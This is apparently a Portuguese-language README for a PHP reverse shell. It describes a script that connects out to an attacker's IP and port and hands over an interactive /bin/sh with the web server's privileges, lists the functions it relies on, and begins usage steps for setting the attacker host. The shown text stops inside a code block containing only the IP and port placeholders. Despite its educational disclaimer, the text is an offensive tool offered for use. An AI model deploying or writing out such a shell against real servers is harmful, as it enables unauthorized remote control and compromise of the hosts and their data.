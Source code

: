 # 🐚 PHP Reverse Shell - Versão em Português

## ⚠️ AVISO LEGAL

> Este código é disponibilizado **somente para fins educacionais** ou para **testes de segurança autorizados**.  
> O uso sem permissão pode violar leis locais ou internacionais.  
> O autor **não se responsabiliza** por qualquer uso indevido deste código.  
> Use **apenas em ambientes controlados** com autorização explícita.

---

## 📖 Descrição

Este script PHP faz uma **conexão TCP reversa** para um IP e porta especificados.  
Assim que a conexão for estabelecida, o atacante recebe um **shell interativo** com os mesmos privilégios do processo PHP (geralmente `www-data`, `apache`, etc).

---

## ✅ Funcionalidades

- Conexão reversa via `fsockopen`
- Execução de shell interativo com `/bin/sh -i`
- Comunicação bidirecional com `proc_open` e `stream_select`
- Tentativa de daemonização para evitar processos zumbis
- Comentários em português explicando todo o funcionamento

---

## 🧪 Requisitos

- PHP 4.3 ou superior
- Funções ativadas: `fsockopen`, `proc_open`, `stream_set_blocking`, `stream_select`
- Ambiente Unix/Linux para melhor compatibilidade

---

## 🛠️ Como Usar

### 1. Edite o script PHP

Abra o arquivo e altere o IP e a porta para o seu host atacante:

```php
$ip = 'SEU_IP_AQUI';   // Exemplo: '192.168.0.100'
$port = 1234;          // Exemplo: 4444
